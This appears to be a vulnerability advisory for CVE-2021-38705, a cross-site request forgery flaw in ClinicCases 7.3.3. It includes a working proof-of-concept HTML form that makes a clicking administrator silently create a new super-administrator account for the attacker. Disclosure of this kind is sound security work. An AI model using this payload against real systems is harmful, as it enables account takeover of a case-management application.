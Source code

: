 # CVE-2021-38705
## Cross-Site Request Forgery (CSRF) in ClinicCases 7.3.3

### Detail

ClinicCases 7.3.3 is affected by Cross-Site Request Forgery (CSRF). A
successful attack would consist of an authenticated user following a
malicious link, resulting in arbitrary actions being carried out with
the privilege level of the targeted user. This can be exploited to
create a secondary administrator account for the attacker.

> The entire application does not require validation tokens for each request. Therefore, when victims are tricked into sending a request without their knowledge, the victim can perform arbitrary actions from an attacker.

For example, the following HTML form could be sent to the administrator. When the administrator clicks the "CLICK ME!" button, their browser will quietly add a new administrator to the application with the username `ATTACKER`. Once executed, the attacker will receive an email to join the application as the new administrator.

```html
<html>
  <h1>Cross-Site Request Forgery (CSRF) in ClinicCases 7.3.3 (CVE-2021-38705)</h1>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://cliniccases.local/cliniccases/lib/php/users/users_process.php" method="POST">
      <input type="hidden" name="first&#95;name" value="ATTACKER" />
      <input type="hidden" name="last&#95;name" value="ATTACKER" />
      <input type="hidden" name="email" value="fake&#64;fake&#46;com" />
      <input type="hidden" name="mobile&#95;phone" value="" />
      <input type="hidden" name="office&#95;phone" value="" />
      <input type="hidden" name="home&#95;phone" value="" />
      <input type="hidden" name="grp" value="super" />
      <input type="hidden" name="status" value="active" />
      <input type="hidden" name="id" value="633" />
      <input type="hidden" name="new" value="" />
      <input type="hidden" name="action" value="create" />
      <input type="hidden" name="supervisors" value="" />
      <input type="submit" value="CLICK ME!" />
    </form>
  </body>
</html>
```

![image](https://user-images.githubusercontent.com/52385049/132094691-b70dcd0e-aa14-4585-bb2b-04be87c0fb23.png)
![image](https://user-images.githubusercontent.com/52385049/132094734-8bc68705-5bef-4591-b734-f821046ba38d.png)
